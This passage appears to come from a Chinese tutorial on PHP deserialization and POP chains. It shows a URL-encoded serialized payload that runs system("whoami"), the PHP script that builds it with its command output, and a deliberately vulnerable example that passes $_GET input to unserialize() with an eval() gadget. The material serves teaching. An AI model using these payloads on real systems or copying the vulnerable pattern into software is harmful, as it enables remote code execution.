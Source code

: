 构造 payload：

```text
O%3A5%3A%22index%22%3A1%3A%7Bs%3A11%3A%22%00index%00test%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A5%3A%22test2%22%3Bs%3A17%3A%22system%28%22whoami%22%29%3B%22%3B%7D%7D

```

```php
<?php
class index {
    private $test;
    public function __construct(){
        $this->test = new evil();
    }
}
class evil {
    var $test2 = 'system("whoami");';
}

$i = new index();
echo urlencode(serialize($i));
```

运行结果：

```text
win-1iljbo80gej\administrator
```

### 2、POP 链基础前置知识 2

示例代码：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class index {
    private $test;
    public function __construct(){
        $this->test = new normal();
    }
    public function __destruct(){
        $this->test->action();
    }
}
class normal {
    public function action(){
        echo "please attack me";
    }
}
class evil {
    var $test2;
    public function action(){
        eval($this->test2);
    }
}
unserialize($_GET['test']);
?>
```
